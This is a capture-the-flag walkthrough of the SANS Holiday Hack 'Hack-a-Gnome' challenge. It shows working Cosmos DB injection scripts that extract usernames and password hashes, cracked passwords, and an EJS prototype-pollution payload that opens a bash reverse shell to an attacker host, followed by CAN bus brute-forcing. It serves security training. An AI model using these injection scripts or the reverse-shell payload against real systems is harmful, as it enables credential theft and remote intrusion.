Hack-a-Gnome
Rogue gnome robots have taken over a factory and threaten to freeze the entire neighborhood. Chris needs help infiltrating their control systems - protected by database authentication, web application security, and embedded hardware protocols. Our mission: exploit each layer, commandeer one of the rebellious bots, and navigate it through the factory to shut down the operation from within.
Challenge Overview
We need to break into the gnome's control systems. We begin with just a link to a "Smart Gnome Control" login page without any credentials.
Breaking In
Finding the Database
From the login screen, there is a link to create a new account. If we try to register, we are told that registration is closed. However, I noticed that as I typed in a username, the page checked if it was available or taken.

After trying various payloads, I found one for MongoDB that generated an error
Microsoft.Azure.Documents that indicated that it's a Azure Cosmos DB. The hint
regarding
IS_DEFINED confirms this, as Azure Cosmos DB is the only database that uses this
specific function.

DB Injection to Find Usernames
Checking Azure Cosmos DB documentation, the STARTSWITH would help us find usernames.
We can assume that the backend runs a query similar to this
SELECT * FROM c WHERE c.username = "{input}"
So we'll try to inject code to make it run a query like this:
SELECT * FROM c WHERE c.username = "" OR STARTSWITH(c.username, "a")--"
This creates two conditions for the where clause. The first one tests a blank
username
which is always false. If the second clause is true, then we should get response that the
username is taken. The -- comments out the trailing quote to avoid syntax errors.
This enables us to enumerate usernames character by character.
Here is a truth table showing how the injection works:
| Injected Condition | Query Result | Response | Meaning |
|---|---|---|---|
| "STARTSWITH(c.username, "a")-- | No rows match | "Username available" | No usernames start with "a" |
| "STARTSWITH(c.username, "h")-- | Row(s) found | "Username taken" | At least one username starts with "h" |
| "STARTSWITH(c.username, "ha")-- | Row(s) found | "Username taken" | Narrowing down... |
| "STARTSWITH(c.username, "harold")-- | Row(s) found | "Username taken" | Skipping ahead: harold |
Using this method, I scripted a simple Python program to enumerate usernames character by
character. I found bruce as another username.

Python Script for Username Enumeration
import requests
import string
import time
import sys
BASE_URL = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com"
RESOURCE_ID = "c6884fc4-4c55-4ad5-a274-30619d33a7ff"
CHARSET = string.ascii_lowercase
def check_payload(payload):
"""
Sends injection payload.
Returns True if the database finds a match (available=False).
"""
params = {'username': f'{payload}', 'id': RESOURCE_ID}
try:
response = requests.get(f"{BASE_URL}/userAvailable", params=params, timeout=10)
if response.status_code == 429:
print("! Rate limit hit. Sleeping for 5s...")
time.sleep(5)
return check_payload(payload)
return response.json().get("available") == False
except Exception as e:
print(f"Error: {e}")
return False
def check_exact_match(username):
"""
Checks if a specific username exists without injection syntax.
"""
params = {'username': username, 'id': RESOURCE_ID}
try:
response = requests.get(f"{BASE_URL}/userAvailable", params=params, timeout=10)
return response.json().get("available") == False
except:
return False
def find_users(current_prefix=""):
"""
Recursive function to find users.
"""
if len(current_prefix) >= 6:
return
for char in CHARSET:
attempt = current_prefix + char
# Sleep to slow down the attack
time.sleep(0.5)
payload = f'" OR STARTSWITH(c.username, "{attempt}")--'
sys.stdout.write(f"\rScanning: {attempt}...")
sys.stdout.flush()
if check_payload(payload):
# Check if this specific string is a valid full username
if check_exact_match(attempt):
print(f"\n[+] FOUND USERNAME: {attempt}")
# Recurse deeper to find longer variations
find_users(attempt)
if __name__ == "__main__":
print("=== Starting Username Enumeration (Max 6 chars) ===")
find_users()
print("\n=== Enumeration Complete ===")
DB Injection to Find Passwords
Next, we need to find the password hashes. The hint mentioned using IS_DEFINED to
find
attribute names. We can use a similar injection technique to find which attributes exist in
the
document. Using the IS_DEFINED function mentioned in the hint, we iterated through common column
names (password, hash, pass, etc.) until IS_DEFINED(c.digest) returned true.
We can repeat the process using STARTSWITH injection again to extract the hash
character by character. We found Bruce's hash: D0A9BA00F80CBC56584EF245FFC56B9E and
Harold's hash:
07F456AE6A94CB68D740DF548847F459.
$ python3 get_digest.py === Extracting hash for bruce === [1] d [2] d0 [3] d0a ... [31] d0a9ba00f80cbc56584ef245ffc56b9 [32] d0a9ba00f80cbc56584ef245ffc56b9e Final: bruce -> d0a9ba00f80cbc56584ef245ffc56b9e
Python Script for extracting hashes
import requests
import string
import time
BASE_URL = "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com"
RESOURCE_ID = "c6884fc4-4c55-4ad5-a274-30619d33a7ff"
CHARSET = string.hexdigits.lower()
def inject(username, payload):
"""Send injection payload, return True if user 'exists' (available=False)"""
params = {'username': f'{username}{payload}', 'id': RESOURCE_ID}
try:
response = requests.get(f"{BASE_URL}/userAvailable", params=params, timeout=10)
# Check for rate limiting explicitly (optional but good practice)
if response.status_code == 429:
print("! Rate limit hit. Sleeping for 5 seconds...")
time.sleep(5)
return inject(username, payload) # Retry
return response.json().get("available") == False
except requests.RequestException as e:
print(f"Request failed: {e}")
return False
def extract_hash(username, field="digest"):
"""Extract hash character by character using STARTSWITH"""
extracted = ""
for position in range(64):
for char in CHARSET:
# Sleep before each request to slow down
time.sleep(0.5)
if inject(username, f'" AND STARTSWITH(c.{field}, "{extracted + char}")--'):
extracted += char
print(f"[{position+1}] {extracted}")
break
else:
break
return extracted
if __name__ == "__main__":
for user in ["bruce", "harold"]:
print(f"\n=== Extracting hash for {user} ===")
hash_value = extract_hash(user)
print(f"Final: {user} -> {hash_value}")Using precomputed hashes from websites like CrackStation, we were able to crack these hashes and
retrieve the original passwords, oatmeal12 for Bruce and oatmeal!! for
Harold.

Resources for precomputed hash cracking: CrackStation, MD5Decrypt, Hashes.com.
Recon for Gnome Control Website
After logging in, we see a robot in a maze resembling a Sokoban puzzle. There are two main components: a Stats panel and the Gnome Control panel. There are controls to move the robot, but all of them error out with "Unknown canbus command: 0x656" (or similar codes for other directions).
CAN bus, a Protocol for Embedded Systems
CAN bus (Controller Area Network) is a robust vehicle bus standard designed to allow microcontrollers and devices to communicate with each other without a host computer. It is widely used in automotive and industrial applications for embedded systems communication. We learned about protocols for embedded systems in last year's HHC hardware challenge: UART and MQTT. And there will be more protocols for embedded systems later in this year's HHC as well.

There's an Update Name function which allows us to send a possible injection payload to the server. When we test it while using Burp Suite, we see the function send a JSON via GET to /ctrlsignals.
{"action":"update","key":"settings","subkey":"name","value":"foo"}
Using Burp's Decoder to decode URL encoded JSON
Burp Suite has a useful Decoder tool that can quickly decode URL-encoded JSON payloads, making it easier to analyze and modify them. Simply highlight the encoded string and right click to Send to Decoder. From there, click on Smart Decode to get the pretty JSON format.

Recon without Burp Suite
While Burp Suite is nice, if you want to skip installing Burp,
you can also use your browser's DevTools to capture
network requests and inspect the JSON payloads directly. Go to the
Network tab and see the encoded JSON payloads in the Headers subtab. The
pretty printed JSON can be viewed in the Payload subtab.

Prototype Pollution to RCE
The structure of the JSON payload—specifically the explicit use of key and
subkey strongly
suggests that the backend might be performing an assignment similar to obj[key][subkey] = value. If
the application does not sanitize inputs, this structure is a classic vector for Prototype
Pollution.
Prototype Pollution Explanation
In JavaScript, every object inherits properties from a base template called
Object.prototype. Think of it as a fallback - if an object doesn't have a property,
JavaScript checks the prototype chain.
const obj = {};
obj.toString(); // Works! Inherited from Object.prototypeconst obj = {};
obj.isAdmin; // undefined
// Attacker pollutes the prototype:
Object.prototype.isAdmin = true;
obj.isAdmin; // true - even though we never set it!The Vulnerable Code Pattern
The gnome control application accepts JSON payloads to update settings:
// From server.js
const { key, subkey, value } = requestPayload;
gnomeBotObjectDetails[key][subkey] = value;This is intended for legitimate updates like:
{
"action": "update",
"key": "settings",
"subkey": "name",
"value": "MyGnome"
}
Which executes:
gnomeBotObjectDetails["settings"]["name"] = "MyGnome"; // SafeBut there's no validation on key. By setting it to __proto__, we access
the object's prototype:
{
"action": "update",
"key": "__proto__",
"subkey": "polluted",
"value": "hacked"
}
Which executes:
gnomeBotObjectDetails["__proto__"]["polluted"] = "hacked";
// Now ALL objects have .polluted = "hacked"Polluting a random property isn't useful on its own. We need a gadget which is an existing code path
that
uses a pollutable property in a dangerous way.
One of the hints mentioned "template rendering." A common template engine in Node.js
environments (often used with JSON backends) is EJS (Embedded JavaScript). EJS has
a known
gadget where polluting the outputFunctionName property can lead to Remote Code
Execution (RCE).
By injecting into __proto__, we can try to overwrite this property.
We craft a payload that closes the function definition, executes our command to establish a reverse
shell, and cleanly handles the trailing code.
{
"action": "update",
"key": "__proto__",
"subkey": "outputFunctionName",
"value": "_tmp1;global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/<Attacker IP>/4444 0>&1\"');var __tmp2"
}For convenience, here is the URL-encoded payload. Don't forget to replace
%7B%22action%22%3A%22update%22%2C%22key%22%3A%22__proto__%22%2C%22subkey%22%3A%22outputFunctionName%22%2C%22value%22%3A%22_tmp1%3Bglobal.process.mainModule.require%28%27child_process%27%29.execSync%28%27bash%20-c%20%5C%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<1st octet>%2E<2nd octet>%2E<3rd octet>%2E<4th octet>%2F4444%200%3E%261%5C%22%27%29%3Bvar%20__tmp2%22%7D
Deep Dive: Dissecting the RCE Payload
The string _tmp1;global.process.mainModule.require... is a specific payload used in
Node.js security exploits to achieve Remote Code Execution (RCE) via Server-Side Template
Injection (SSTI).
The Anatomy of the Payload
1. The "Bookends": Breaking Syntax
The _tmp1; and ;var __tmp2 segments act as delimiters. They ensure the
injected code integrates correctly into the larger JavaScript function string being dynamically
constructed by EJS.
_tmp1; // Ends the previous statement
global... // Executes our command
;var __tmp2 // Starts a new valid statement to handle trailing code2. Accessing the Module Loader
global.process.mainModule.require('child_process')
This is the core of the exploit. In many restricted environments (like template renders), the
direct require() function is filtered or unavailable. However,
global.process allows us to access the main module's require function,
bypassing this restriction to load the child_process module.
3. Executing the Command
.execSync(...)
This function within child_process executes the shell command synchronously. It
blocks the Node.js event loop until completion, ensuring the command runs immediately.
Before executing the payload, ensure your listener is set up to catch the reverse shell connection.
Here's a netcat command to do so: nc -lvnp 4444
We send this payload to the /ctrlsignals endpoint using Burp Suite's Repeater.

Pollution Without Burp Suite
Since the prototype pollution is done with an HTTP GET, we can simply use our browser to send the request.

The pollution occurs immediately, but the code execution only happens when EJS compiles a template. To trigger this, we simply refresh the Stats panel with the button inside the browser (or hit the /stats endpoint), which causes the server to render the view and execute our reverse shell.
$ nc -lvnp 4444 Listening on 0.0.0.0 4444 Connection received on ... root@e9c6b932de01:/app# whoami whoami root
We now have a root shell inside the gnome's container!
Recon the Control Server
From the shell, we find a file named canbus_client.py that translates the web commands into CAN bus signals that the hardware understands. We see the same hex values as what was in the error messages when we tried the commands in the interface. A comment also mentions the CAN IDs might be outdated.
# Define CAN IDs (I think these are wrong with newest update, we need to check the actual device documentation)
COMMAND_MAP = {
"up": 0x656,
"down": 0x657,
"left": 0x658,
"right": 0x659,
}A hint mentioned brute-forcing the CAN bus signals to find the correct ones. I wrote a script to find them. By monitoring the factory camera feed while sending signals, we can observe which IDs cause movement. Here is a trimmed-down version of the script focused on the relevant hex range:
root@e8fc4b25d792:/app# cat > /tmp/precise_search.py << 'EOF' #!/usr/bin/python3 import can import time bus = can.interface.Bus(channel='gcan0', interface='socketcan') test_ids = list(range(0x1FA, 0x210)) # 0x1FA to 0x210 print("Testing each ID individually. Watch the web UI!") print("Note which IDs cause movement and in which direction.") print() for test_id in test_ids: msg = can.Message(arbitration_id=test_id, data=[], is_extended_id=False) try: bus.send(msg) print(f"Testing ID: 0x{test_id:03x} (decimal {test_id})") time.sleep(2) # Wait 2 seconds between each test so you can see the movement except Exception as e: print(f"Error with 0x{test_id:03x}: {e}") bus.shutdown() print("\nTest complete!") EOF root@e8fc4b25d792:/app# python3 /tmp/precise_search.py

| Direction | Original ID (Wrong) | Discovered ID (Correct) |
|---|---|---|
| Up | 0x656 | 0x201 |
| Down | 0x657 | 0x202 |
| Left | 0x658 | 0x203 |
| Right | 0x659 | 0x204 |
Patch and Solve
With the correct CAN IDs discovered, we can now patch the client to control the gnome accurately.
The reverse shell makes it hard to use vi or nano, so I used sed to do an inline
replacement of the values:
root@e9c6b932de01:/app# sed -i 's/656/201/' canbus_client.py root@e9c6b932de01:/app# sed -i 's/657/202/' canbus_client.py root@e9c6b932de01:/app# sed -i 's/658/203/' canbus_client.py root@e9c6b932de01:/app# sed -i 's/659/204/' canbus_client.py
Exit the shell to complete the status refresh and see the gnome respond to the new controls. The puzzle resembles a Sokoban layout, but it's a little different so online Sokoban solvers cannot be used. Pushing blocks as shown below allows us to reach the power down button:

When you get to the power switch, the factory powers down and the challenge is complete!

Challenge Reference Material
Challenge Descriptions
Classic Mode Description
Davis in the Data Center is fighting a gnome army—join the hack-a-gnome fun.
CTF Mode Description
Hey, I could really use another set of eyes on this gnome takeover situation. Their systems have multiple layers of protection now - database authentication, web application vulnerabilities, and more! But every system has weaknesses if you know where to look. Ready to help me turn one of these rebellious bots against its own kind?
Official Hints
- Sometimes, client-side code can interfere with what you submit. Try proxying your requests through a tool like Burp Suite or OWASP ZAP. You might be able to trigger a revealing error message.
- Oh no, it sounds like the CAN bus controls are not sending the correct signals! If only there was a way to hack into your gnome's control stats/signal container to get command-line access to the smart-gnome. This would allow you to fix the signals and control the bot to shut down the factory. During my development of the robotic prototype, we found the factory's pollution to be undesirable, which is why we shut it down. If not updated since then, the gnome might be running on old and outdated packages.
- I actually helped design the software that controls the factory back when we used it to make toys. It's quite complex. After logging in, there is a front-end that proxies requests to two main components: a backend Statistics page, which uses a per-gnome container to render a template with your gnome's stats, and the UI, which connects to the camera feed and sends control signals to the factory, relaying them to your gnome (assuming the CAN bus controls are hooked up correctly). Be careful, the gnomes shutdown if you logout and also shutdown if they run out of their 2-hour battery life (which means you'd have to start all over again).
- There might be a way to check if an attribute IS_DEFINED on a given entry. This could allow you to brute-force possible attribute names for the target user's entry, which stores their password hash. Depending on the hash type, it might already be cracked and available online where you could find an online cracking station to break it.
- Once you determine the type of database the gnome control factory's login is using, look up its documentation on default document types and properties. This information could help you generate a list of common English first names to try in your attack.
- Nice! Once you have command-line access to the gnome, you'll need to fix the signals in the
canbus_client.pyfile so they match up correctly. After that, the signals you send through the web UI to the factory should properly control the smart-gnome. You could try sniffing CAN bus traffic, enumerating signals based on any documentation you find, or brute-forcing combinations until you discover the right signals to control the gnome from the web UI.